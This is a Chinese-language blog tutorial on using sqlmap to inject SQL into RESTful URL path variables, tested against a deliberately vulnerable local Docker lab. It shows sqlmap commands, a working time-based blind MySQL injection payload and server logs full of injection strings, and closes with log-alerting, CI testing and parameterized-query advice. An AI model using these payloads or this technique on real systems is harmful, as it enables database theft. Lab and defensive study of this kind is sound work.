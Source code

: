 ```yaml
---
layout: post
title: 使用 sqlmap 根据变量位置定点注入 restful api
categories: [security, tools]
description: 使用 sqlmap 定点注入 restful API 接口
keywords: tools, sqlmap
---
```


# 使用 sqlmap 根据变量位置定点注入 restful api

sqlmap 是一款强劲自动化的 sql 注入工具， 使用 python 开发， 支持 `python 2/3`。

RESTful API 规则几乎是当前开发执行的默认规范。  


在 restful 接口中， 常常将变量位置放置在 url 中。 
例如 `http://127.0.0.1:8080/{user}/profile` ， 其中 `{user}` 就是变量，根据代码实现方式，可以等价于 `http://127.0.0.1:8080/profile?user={user}` 。

那么， 在对这类 restful 接口进行 sql 注入的时候，又该注意什么呢？ 
本文将通过实验， 进行简单介绍。

## 先说结论

在进行 restful 接口注入的时候， 需要在变量位置使用占位符， 通常为 `1*` 。

例如接口如下

+ 接口规则: `http://127.0.0.1:8080/{user}/profile` 
+ 实际使用: `http://127.0.0.1:8080/zhangsan/profile`
+ 注入规则: `http://127.0.0.1:8080/1*/profile`
    + 实际上， 可以简写为 `http://127.0.0.1:8080/1*`

## 准备工作

**扫描工具**

+ [`sqlmap`](http://sqlmap.org/)

**运行环境**

+ 数据库: `mysql 5.7`
+ 注入靶机: [`vulhub/sqli/restful` 
    + [代码实现 - github](https://github.com/tangx/vulhub/tree/master/cmd/sqli/restful)
    + `doslab/vulhub-sqli:latest` 镜像: `docker pull doslab/vulhub-sqli:latest`

## 搭建环境

这里使用 `docker-compose` 快速搭建环境

**docker-compose.yml**

```yaml
# docker-compose.yml

version: '3.1'
services:
  mysql:
    image: mysql:5.7
    restart: always
    environment:
      MYSQL_ROOT_PASSWORD: root123
  sqli:
    image: doslab/vulhub-sqli
    ports:
      - 8080:8080
```

```bash
# 启动
$ docker-compose up -d

# 查看启动状态
$ docker-compose ps

# 验证数据库是否初始化
$ curl http://127.0.0.1:8080/v1/admin/admin
## {"name":"admin","password":"admin"}
```

注意: 由于 mysql 初始化需要一定时间， 所以在 **vulhub-sqli** 启动时 **可能无法正常初始化数据库** 或 **无法正常启动** 。  此时使用 `docker-compose restart sqli` 或 `docker-compose up -d` 即可。


## sqlmap 注入

在 github 上 clone 代码到本地并安装依赖组件。 具体操作可以按照说明进行。 这里建议使用 `git clone` 方式， 一遍后续更新。


或者， 使用笔者预先做好的镜像 docker 镜像 `docker pull tangx/sqlmap` 。

这里， 笔者使用 docker 进行注入操作

```bash
# 启动运行 sqlmap 环境
$ docker run --rm -it tangx/sqlmap:latest bash
```

在 `vulhub-sqli` 靶机中的 API `GET http://your-ip:8080/v0/${user}/${password}` 中有两个变量 **user** 和 **password** 。 任意使用其中给一个，均可完成注入。

这里我们在变量 **password** 的位置使用占位符 `1*`。

```bash
$ ./sqlmap.py -u "http://yourip:8080/v0/admin/1*" --batch

[19:00:42] [INFO] checking if the injection point on URI parameter '#1*' is a false positive
URI parameter '#1*' is vulnerable. Do you want to keep testing the others (if any)? [y/N] N
sqlmap identified the following injection point(s) with a total of 74 HTTP(s) requests:
---
Parameter: #1* (URI)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: http://192.168.233.3:8080/v0/admin/1' AND (SELECT 5249 FROM (SELECT(SLEEP(5)))xozz) AND 'oVDy'='oVDy
---
[19:00:57] [INFO] the back-end DBMS is MySQL
[19:00:57] [WARNING] it is very important to not stress the network connection during usage of time-based payloads to prevent potential disruptions
back-end DBMS: MySQL >= 5.0.12
[19:00:57] [WARNING] HTTP error codes detected during run:
404 (Not Found) - 1 times
[19:00:57] [INFO] fetched data logged to text files under '/root/.local/share/sqlmap/output/192.168.233.3'


```


从日志结果我们可以看到 `Type: time-based blind`，靶机有 **时间盲注** 漏洞。

## 运维体系加固

首先，我们观察一下 sqlmap 留下的日志。

接口部分日志如下

```log

[GIN] 2020/12/02 - 19:00:31 | 200 |     456.835µs |    192.168.32.1 | GET      "/v0/admin/1'sHvusK<'\">DyNhdx"
[GIN] 2020/12/02 - 19:00:31 | 200 |     474.341µs |    192.168.32.1 | GET      "/v0/admin/1) AND 5498=7607 AND (9169=9169"
[GIN] 2020/12/02 - 19:00:31 | 200 |     467.909µs |    192.168.32.1 | GET      "/v0/admin/1 AND 1526=1615"

... lue ...

[GIN] 2020/12/02 - 19:00:31 | 200 |     471.358µs |    192.168.32.1 | GET      "/v0/admin/1' AND EXTRACTVALUE(1745,CONCAT(0x5c,0x716b7a7171,(SELECT (ELT(1745=1745,1))),0x7178706271)) AND 'Sdog'='Sdog"
[GIN] 2020/12/02 - 19:00:31 | 200 |     311.095µs |    192.168.32.1 | GET      "/v0/admin/1 AND EXTRACTVALUE(1745,CONCAT(0x5c,0x716b7a7171,(SELECT (ELT(1745=1745,1))),0x7178706271))-- PuIi"

... lue ...

[GIN] 2020/12/02 - 19:00:42 | 200 |     390.044µs |    192.168.32.1 | GET      "/v0/admin/1' UNION ALL SELECT NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL-- -"
time="2020-12-02T19:00:42Z" level=error msg="get user failed: Error 1222: The used SELECT statements have a different number of columns"
[GIN] 2020/12/02 - 19:00:42 | 200 |     371.442µs |    192.168.32.1 | GET      "/v0/admin/1' UNION ALL SELECT NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL-- -"

... lue ...

[GIN] 2020/12/02 - 19:00:57 | 200 |     445.171µs |    192.168.32.1 | GET      "/v0/admin/1' AND (SELECT 6597 FROM (SELECT(SLEEP(5-(IF(@@VERSION_COMMENT LIKE 0x256472697a7a6c6525,0,5)))))QvWg) AND 'ftQy'='ftQy"
[GIN] 2020/12/02 - 19:00:57 | 200 |     369.366µs |    192.168.32.1 | GET      "/v0/admin/1' AND (SELECT 5784 FROM (SELECT(SLEEP(5-(IF(@@VERSION_COMMENT LIKE 0x25506572636f6e6125,0,5)))))pKCS) AND 'WJHr'='WJHr"
time="2020-12-02T19:00:57Z" level=error msg="get user failed: Error 1305: FUNCTION vulhub.AURORA_VERSION does not exist"

... lue ...

```

通过日志不难看出， sqlmap 在测试注入的时候， 使用了各种类型的数据库函数。 因此， **可以完善日志系统， 针对异常接口参数进行及时告警和跟进处理** 。

当然， 如果真被 sql 注入拖库了， 那之后的优化也封堵也不过是亡羊补牢。 所以， 更好的办法是 **在 CI 完成发布到测试环境之后立即进行注入测试** ， 将事故扼杀在萌芽中。

## 补充

`doslab/vulhub-sqli` 额外提供了**同样功能，但无注入危险**的一个接口 `GET http://your-ip:8080/v1/{user}/{password}` ( **注意这里是 `v1`** ) 。
不通的是，该接口查询使用的时候 `golang mysql` 库进行的 `Query` 查询操作； 而非自己拼写 sql 语句。
